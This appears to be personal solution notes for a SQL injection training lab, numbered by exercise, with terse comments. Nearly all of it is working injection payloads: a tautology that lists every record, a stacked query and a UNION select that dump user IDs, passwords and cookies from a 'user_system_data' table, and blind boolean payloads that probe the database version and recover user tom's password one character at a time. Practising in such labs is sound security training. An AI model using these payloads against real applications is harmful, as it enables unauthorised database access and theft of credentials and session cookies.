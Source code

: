 #3
##look for Smith
##list them all
'or 1=1--

##get data from the other table appending new sql statement
'; select * from user_system_data --

##get data from the other table using union
'union select userid,user_name,password,cookie,'a String','a String',1 from user_system_data --

#5
##add a user test
##test AND True -> False (already exists)
##test AND False -> True (created)

##check the db version
test' AND substring(database_version(),1,1) = 1--
test' AND substring(database_version(),1,1) = 2--

#check tom password
tom' AND substring(password,1,1) = 'a'--
tom' AND substring(password,2,1) = 'i'--
